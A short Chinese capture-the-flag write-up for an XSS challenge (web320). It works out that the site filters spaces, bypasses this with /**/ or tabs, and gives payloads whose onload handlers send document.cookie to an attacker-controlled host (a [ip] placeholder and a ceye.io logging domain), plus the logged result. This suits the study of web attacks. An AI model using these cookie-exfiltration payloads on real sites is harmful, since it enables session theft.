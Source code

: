 



### web320

不知道过滤了什么，一个个试。

```
document.cookie">
+document.cookie">
xss='+document.cookie">
='http://[ip]/xss.php?xss='+document.cookie">
="document.location.href='http://[ip]/xss.php?xss='+document.cookie">
onload="document.location.href='http://[ip]/xss.php?xss='+document.cookie">
```

以上这些都是能够正常上传的，但再加上前面的一个空格就不行了，从而可知过滤的是空格

替换方法还是有的：`tab、/**/`

payload:

```
<body/**/onload="window.open('http://we1wmh.ceye.io/'+document.cookie)"></body>
```

结果：

```
{"meta": {"code": 201, "message": "HTTP Record Insert Success"}}
```

![](.\XSS\图片\web320.png)



### web321-326
